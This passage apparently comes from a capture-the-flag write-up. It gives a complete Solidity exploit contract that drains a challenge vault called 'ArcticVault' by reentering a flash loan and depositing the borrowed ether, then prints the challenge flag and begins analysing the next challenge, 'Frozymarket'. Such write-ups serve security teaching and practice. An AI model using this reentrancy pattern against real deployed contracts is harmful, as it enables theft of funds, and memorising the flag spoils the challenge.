 #### Exploit

```javascript
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./Challenge.sol";

contract Exploit{
    Setup public setup;
    ArcticVault public AV;
    bool public entered;

    constructor(address _setup) {
        setup = Setup(_setup);
        AV = ArcticVault(setup.TARGET());
        entered = false;
    }

   function exploit() public{
        AV.flashLoan(1 ether);
        AV.withdraw();
    }

    receive() external payable{
        if (!entered) {
            entered = true;
            AV.flashLoan(0);
            AV.deposit{value: 1 ether}();
        }
    }
}
```
{: file="Exploit.sol"}

Running the `exploit()` function will allow us to solve the challenge the unintended way, but anyway here is the flag

> gctf{Me55age_d0t_wh4t?}

## Frozymarket

```
Frozymarket is the first prediction market in the arctic. Bet on your favorite hockey team, 
or get creative creating your own market. The possibilities are endless.

Author: J4X
```
{: file="description"}

### Initial Analysis

We are given 2 solidity files for this challenge, as usual the `Setup.sol` and the `Challenge.sol`, this challenge goal is also classic, making the balance of `TARGET` or `Challenge.sol` become zero as we can see in the Setup contract below.
